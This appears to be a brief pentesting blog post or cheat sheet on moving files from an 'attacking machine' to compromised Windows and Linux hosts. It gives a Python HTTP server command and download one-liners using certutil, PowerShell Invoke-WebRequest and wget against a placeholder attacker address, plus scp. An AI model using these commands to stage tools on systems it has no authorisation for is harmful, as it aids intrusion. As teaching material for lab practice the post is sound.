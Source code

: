 ```yaml
---
title: "File Transfer"
collection: posts
#type: "Undergraduate course"
permalink: /posts/2023-spring-teaching-3
#venue: "University 1, Department"
date: 2023-02-13
#location: "City, Country"
---
```


# File Transfer
 
 Before talking about how to transfer a file,let's start by how you can host a server on your attacking machine. 
 ## Using Python
```bash
python3 -m http.server PORT_NUMBER
```
##
Now let's see how you can tranfer files on windows and linux

## Windows: 
**cmd :** 
```cmd
certutil.exe -urlcache -f http://X.X.X.X:PORT/FILE_NAME FILE_NAME
```
**powershell :**
```powershell
powershell -c "Invoke-WebRequest -Uri 'http://X.X.X.X:PORT/FILE_NAME' -OutFile 'PATH\TO\FILE'"
```
## Linux
```bash
wget http://X.X.X.X/FILE_NAME FILE_NAME
```
##
There is another way to transfer files using **scp** command where you don't need to host a server on your machine but you must have the credentials of the machine that you will transfer the file to.
 ```cmd
 scp FILE_NAME USER_NAME@X.X.X.X:/PATH/TO/FILE
 ```